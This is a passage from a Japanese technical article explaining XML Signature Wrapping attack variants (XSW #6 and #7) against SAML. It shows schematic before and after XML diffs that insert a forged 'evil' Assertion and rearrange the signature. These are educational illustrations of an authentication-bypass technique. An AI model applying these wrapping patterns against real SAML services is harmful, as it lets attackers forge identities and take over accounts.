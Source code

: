 ```diff:改ざん後
  <Response ID="bar">
+   <Assertion ID="evil">
+     <Subject>
+     <Signature>
+       <SignedInfo>
+         <Reference URI="foo">
+       </SignedInfo>
+       <Assertion ID="foo">
+         <Subject>
+       <Assertion>
+     </Signature>
+   </Assertion>
-   <Signature>
-     <SignedInfo>
-       <Reference URI="foo">
-     </SignedInfo>
-   </Signature>
-   <Assertion ID="foo">
-     <Subject>
-   <Assertion>
  </Response>
```

**XSW #5**と似ているのですが、
改ざんされたAssertionを作成し、Response直下に置いて、
元のSignatureを改ざんされたAssersionの直下に移動させる。
また、さらに元のAssersionを元のSignatureの直下に移動させる。

### XSW #7

```xml:改ざん前
<Response ID="bar">
  <Assertion ID="foo">
    <Subject>
    <Signature>
      <SignedInfo>
        <Reference URI="foo">
      </SignedInfo>
    </Signature>
  </Assertion>
</Response>
```

```diff:改ざん後
  <Response ID="bar">
+   <Extensions>
+     <Assertion ID="evil">
+       <Subject>
+     </Assertion>
+   </Extensions>
    <Assertion ID="foo">
      <Subject>
      <Signature>
        <SignedInfo>
          <Reference URI="foo">
        </SignedInfo>
      </Signature>
    </Assertion>
  </Response>
```
